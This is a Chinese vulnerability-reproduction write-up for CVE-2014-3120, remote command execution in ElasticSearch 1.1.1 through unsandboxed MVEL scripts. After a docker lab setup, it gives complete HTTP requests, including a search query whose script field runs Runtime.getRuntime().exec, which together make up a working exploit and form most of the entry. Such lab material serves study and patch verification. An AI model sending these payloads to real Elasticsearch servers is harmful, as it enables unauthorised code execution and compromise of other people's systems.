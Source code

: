 （CVE-2014-3120）ElasticSearch 命令执行漏洞
===========================================

一、漏洞简介
------------

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

二、漏洞影响
------------

elasticsearch版本：v1.1.1

三、复现过程
------------

编译及运行环境：

    docker-compose build
    docker-compose up -d

将Java代码放入json中：

    {
        "size": 1,
        "query": {
          "filtered": {
            "query": {
              "match_all": {
              }
            }
          }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }
        }
      }

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
      "name": "phithon"
    }

然后，执行任意代码：

    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 343

    {
        "size": 1,
        "query": {
          "filtered": {
            "query": {
              "match_all": {
              }
            }
          }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }
        }
    }

结果如图：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2014-3120)ElasticSearch命令执行漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2014-3120/
